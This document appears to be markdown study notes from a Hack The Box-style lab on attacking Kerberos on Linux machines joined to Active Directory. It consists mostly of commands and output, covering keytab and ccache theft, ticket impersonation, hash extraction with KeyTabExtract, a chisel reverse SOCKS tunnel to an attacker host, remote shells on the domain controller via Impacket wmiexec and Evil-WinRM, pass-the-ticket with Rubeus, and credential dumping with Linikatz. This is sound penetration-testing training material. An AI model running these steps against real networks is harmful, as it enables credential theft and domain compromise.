



### Kerberos on Linux

#### Linux auth from MS01



#### Linux auth via port forward

```bash
ssh david@inlanefreight.htb@10.129.204.23 -p 2222
```

### Identifying Linux and Active Directory integration

We can identify if the Linux machine is domain-joined using [realm](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/windows_integration_guide/cmd-realmd), a tool used to manage system enrollment in a domain and set which domain users or groups are allowed to access the local system resources.

#### realm - Check if Linux machine is domain-joined

```bash
david@inlanefreight.htb@linux01:~$ realm list
```

#### PS - Check if Linux machine is domain-joined

```bash
david@inlanefreight.htb@linux01:~$ ps -ef | grep -i "winbind\|sssd"
```

### Finding Kerberos tickets in Linux

### Finding KeyTab files

#### Using Find to search for files with keytab in the name

```bash
david@inlanefreight.htb@linux01:~$ find / -name *keytab* -ls 2>/dev/null
```

#### Identifying KeyTab files in Cronjobs

```bash
crontab -l

# Edit this file to introduce tasks to be run by cron.
# 
...SNIP...
# 
# m h  dom mon dow   command
*5/ * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
carlos@inlanefreight.htb@linux01:~$ cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
#!/bin/bash

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```

### Finding ccache files

#### Reviewing environment variables for ccache files.

```bash
david@inlanefreight.htb@linux01:~$ env | grep -i krb5
```

#### Searching for ccache files in /tmp

```bash
david@inlanefreight.htb@linux01:~$ ls -la /tmp
```

### Abusing KeyTab files

#### Listing KeyTab file information

```bash
david@inlanefreight.htb@linux01:~$ klist -k -t /opt/specialfiles/carlos.keytab 
```

#### Impersonating a user with a KeyTab

```bash
david@inlanefreight.htb@linux01:~$ klist 
```

#### Connecting to SMB Share as Carlos

```bash
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls
```

### KeyTab Extract

#### Extracting KeyTab hashes with KeyTabExtract

```bash
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

### Abusing KeyTab ccache

#### Privilege escalation to root

```bash
ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
```

#### Looking for ccache files

```bash
root@linux01:~# ls -la /tmp
```

#### Identifying group membership with the id command

```bash
root@linux01:~# id julio@inlanefreight.htb
```

#### Importing the ccache file into our current session

```bash
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
  Program Files                      DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)                 D        0  Mon Jul 18 16:00:35 2022
  ProgramData                       DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder                        D        0  Thu Oct  6 14:46:20 2022
  System Volume Information         DHS        0  Wed Jul 13 19:01:52 2022
  tools                               D        0  Thu Sep 22 18:19:04 2022
  Users                              DR        0  Thu Oct  6 11:46:05 2022
  Windows                             D        0  Wed Oct  5 13:20:00 2022

                7706623 blocks of size 4096. 4447612 blocks available
```

### Using Linux attack tools with Kerberos

#### Host file modified

```bash
samzz@htb[/htb]$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

#### Proxychains configuration file

```bash
samzz@htb[/htb]$ cat /etc/proxychains.conf

...SNIP...

[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to our attack host

```bash
samzz@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
samzz@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
samzz@htb[/htb]$ mv chisel_* chisel && chmod +x ./chisel
samzz@htb[/htb]$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

#### Connect to MS01 with xfreerdp

```bash
samzz@htb[/htb]$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Execute chisel from MS01

```bash
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

#### Setting the KRB5CCNAME environment variable

```bash
samzz@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

#### Using Impacket with proxychains and Kerberos authentication

```bash
samzz@htb[/htb]$ proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
``` 

### Evil-WinRM

#### Installing Kerberos authentication package

```bash
samzz@htb[/htb]$ sudo apt-get install krb5-user -y

Reading package lists... Done                                                                                                  
Building dependency tree... Done    
Reading state information... Done

...SNIP...
```

#### Default Kerberos v5 realm


#### Administrative server for your Kerberos realm



#### Kerberos configuration file for INLANEFREIGHT.HTB

```bash
samzz@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

...SNIP...

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

...SNIP...
```

#### Using Evil-WinRM with Kerberos

```bash
samzz@htb[/htb]$ proxychains evil-winrm -i dc01 -r inlanefreight.htb

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

### Miscellaneous

#### Impacket Ticket converter

[impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py)

```bash
samzz@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

#### Importing converted ticket into Windows session with Rubeus

```bash
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```

### Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. In other words, Linikatz brings a similar principle to Mimikatz to UNIX environments.

#### Linikatz download and execution

```bash
samzz@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
samzz@htb[/htb]$ /opt/linikatz.sh
 _ _       _ _         _
| (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Hughski-Limited
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd/LVFS-CA.pem
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Foundation-Metadata
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd-metadata/LVFS-CA.pem
I: [sss-check] SSS AD configuration
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/timestamps_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  7 12:17 /var/lib/sss/db/config.ldb
-rw------- 1 root root 4154 Oct 10 19:48 /var/lib/sss/db/ccache_INLANEFREIGHT.HTB
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/cache_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  4 16:26 /var/lib/sss/db/sssd.ldb
-rw-rw-r-- 1 root root 10406312 Oct 10 19:54 /var/lib/sss/mc/initgroups
-rw-rw-r-- 1 root root 6406312 Oct 10 19:55 /var/lib/sss/mc/group
-rw-rw-r-- 1 root root 8406312 Oct 10 19:53 /var/lib/sss/mc/passwd
-rw-r--r-- 1 root root 113 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/localauth_plugin
-rw-r--r-- 1 root root 40 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/krb5_libdefaults
-rw-r--r-- 1 root root 15 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/domain_realm_inlanefreight_htb
-rw-r--r-- 1 root root 12 Oct 10 19:55 /var/lib/sss/pubconf/kdcinfo.INLANEFREIGHT.HTB
-rw------- 1 root root 504 Oct  6 11:16 /etc/sssd/sssd.conf
I: [vintella-check] VAS AD configuration
I: [pbis-check] PBIS AD configuration
I: [samba-check] Samba configuration
-rw-r--r-- 1 root root 8942 Oct  4 16:25 /etc/samba/smb.conf
-rw-r--r-- 1 root root 8 Jul 18 12:52 /etc/samba/gdbcommands
I: [kerberos-check] Kerberos configuration
-rw-r--r-- 1 root root 2800 Oct  7 12:17 /etc/krb5.conf
-rw------- 1 root root 1348 Oct  4 16:26 /etc/krb5.keytab
-rw------- 1 julio@inlanefreight.htb domain users@inlanefreight.htb 1406 Oct 10 19:55 /tmp/krb5cc_647401106_HRJDux
-rw------- 1 julio@inlanefreight.htb domain users@inlanefreight.htb 1414 Oct 10 19:55 /tmp/krb5cc_647401106_R9a9hG
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb 3175 Oct 10 19:55 /tmp/krb5cc_647402606
I: [samba-check] Samba machine secrets
I: [samba-check] Samba hashes
I: [check] Cached hashes
I: [sss-check] SSS hashes
I: [check] Machine Kerberos tickets
I: [sss-check] SSS ticket list
Ticket cache: FILE:/var/lib/sss/db/ccache_INLANEFREIGHT.HTB
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:48:03  10/11/2022 05:48:03  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:48:03, Flags: RIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
I: [kerberos-check] User Kerberos tickets
Ticket cache: FILE:/tmp/krb5cc_647401106_HRJDux
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:32:01  10/07/2022 21:32:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/08/2022 11:32:01, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
Ticket cache: FILE:/tmp/krb5cc_647401106_R9a9hG
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:55:02  10/11/2022 05:55:02  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:55:02, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
Ticket cache: FILE:/tmp/krb5cc_647402606
Default principal: svc_workstations@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:55:02  10/11/2022 05:55:02  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:55:02, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
I: [check] KCM Kerberos tickets
```